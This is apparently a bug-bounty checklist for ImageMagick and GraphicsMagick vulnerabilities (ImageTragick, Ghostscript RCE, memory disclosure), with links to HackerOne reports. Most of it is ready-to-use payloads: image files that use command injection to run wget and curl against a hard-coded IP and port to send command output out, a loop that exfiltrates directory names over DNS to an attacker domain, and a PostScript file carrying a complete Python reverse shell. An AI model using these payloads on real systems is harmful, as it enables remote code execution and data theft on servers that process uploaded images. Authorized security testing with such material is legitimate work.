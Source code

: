 # Image Magic / Graphics Magic vulnerabilities

- [ ] Anywhere where we can upload a picture, check for Image Tragic. Especially in profile picture uploads when we see a cropped version of the picture.
- [ ] Check for RCE (CVE-2016-3714)
  - https://hackerone.com/reports/135072

x.gif
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`wget -O- 167.71.9.74:1337 > /dev/null`'
pop graphic-context
```

  - https://web.archive.org/web/20190104220048/https://nahamsec.com/exploiting-imagemagick-on-yahoo/

x.png
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`id | curl http://167.71.9.74:1337/ -d @- > /dev/null`'
pop graphic-context
```
- [ ] Firewalls could be blocking certain requests. Try exfiltration through DNS.
  - https://4lemon.ru/2017-01-17_facebook_imagetragick_remote_code_execution.html
  
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=%60for i in $(ls /) ; do curl "http://$i.attacker.tld/" -d @- > /dev/null; done`'
pop graphic-context
```  
  
- [ ] Check if we are able to edit an uploaded image. Does the request contain arguments? If the backend is using GraphicsMagic, we could inject commands.
  - https://hackerone.com/reports/212696

- [ ] If there is no validation on the file type and Ghostscript is enabled we could get RCE
  - https://hackerone.com/reports/422944

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("167.71.9.74",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') currentdevice putdeviceprops
```

- [ ] Check if we can disclose server memory through image magic (CVE-2017-15277)
  - https://hackerone.com/reports/302885
  - https://hackerone.com/reports/251732
  - https://hackerone.com/reports/274594
  - https://hackerone.com/reports/315256
